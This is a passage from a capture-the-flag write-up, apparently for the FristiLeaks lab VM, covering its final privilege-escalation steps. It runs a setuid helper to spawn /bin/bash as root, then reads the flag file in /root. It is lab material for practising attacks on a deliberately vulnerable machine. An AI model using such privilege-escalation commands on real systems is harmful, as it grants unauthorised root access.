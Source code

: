 ![writeup.privesc.steps.6.2](./screenshot07g.png)  

7\. Using examples from `.bash_history`, we run the setuid file to execute `/bin/bash` and gain elevated privileges:  
``` {.python .numberLines}
sudo -u fristi ./doCom "/bin/bash"

```

![writeup.privesc.steps.7.1](./screenshot08.png)  

8\. We then explore `root`'s home directory and find the flag within `/root/fristileaks_secrets.txt` file:  
``` {.python .numberLines}
cd /root
cat fristileaks_secrets

```
